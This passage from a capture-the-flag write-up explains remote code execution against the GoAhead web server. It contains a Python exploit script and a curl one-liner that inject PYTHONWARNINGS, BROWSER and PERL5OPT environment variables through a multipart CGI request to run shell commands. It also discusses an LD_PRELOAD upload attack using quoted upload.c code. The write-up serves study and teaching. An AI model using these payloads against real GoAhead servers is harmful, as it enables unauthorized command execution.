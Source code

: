 ```python=
-Mbase;print(system("cat".chr(0x20)."/flag"));exit;
--------------------------58ffd05745ad3119--
'''.replace('\n', '\r\n').encode()
#payload = payload.replace(b'FILE', open('nekodesu.so', 'rb').read())
l = len(payload)

body = f'''POST /cgi-bin/date HTTP/1.1
Host: localhost:55555
User-Agent: curl/7.68.0
Accept: */*
Content-Length: {l}
Content-Type: multipart/form-data; boundary=------------------------58ffd05745ad3119

'''.replace('\n', '\r\n').encode() + payload

s.send(body)
print(s.recv(1024).decode())
s.close()
```

 or using curl as follow:
 
 ```sh
 curl -F "PYTHONWARNINGS=all:0:antigravity.x:0:0" -F "BROWSER=perlthanks" -F 'PERL5OPT=-Mbase;print(system("cat".chr(0x20)."/flag"));exit;' http://advancement.chal.perfect.blue
 ```
 
 ### Second Method RCE (Didn't work on the challenge)
 
 As mentioned before, we stick a lot of time trying the ``LD_PRELOAD`` trick, but unfortunately we can see in the challenge docker-compose file that ```    read_only: true``` so forcing an upload will always throw an error since the temporary files created while uploading will be stored in ``/etc/goahead/tmp`` . The ``/tmp`` is writable so at first I thought that we have maybe to find another vulnerability while forging the path of the temporary file but we had no luck.
 
 After the end of the CTF, I didn't give up on this idea and sticked trying it in a normal environment with writable FS. You may be asking now that even if we managed to upload the shared library we will still have to brute force/guess the name of the temporary file ? In fact after some intense code review of the upload component I noticed the following while handling the uploaded file **[L240](https://github.com/embedthis/goahead/blob/master/src/upload.c#L240)**:
 
 ```c=
 wfree(wp->uploadTmp);
  if ((wp->uploadTmp = websTempFile(uploadDir, "tmp")) == 0) {
           websError(wp, HTTP_CODE_INTERNAL_SERVER_ERROR,
           "Cannot create upload temp file %s. Check upload temp dir %s", wp->uploadTmp, uploadDir);
           return;
       }
       trace(5, "File upload of: %s stored as %s", wp->clientFilename, wp->uploadTmp);

if ((wp->upfd = open(wp->uploadTmp, O_WRONLY | O_CREAT | O_TRUNC | O_BINARY, 0600)) < 0) {
         websError(wp, HTTP_CODE_INTERNAL_SERVER_ERROR, "Cannot open upload temp file %s", wp->uploadTmp);
         return;
         }
                
```
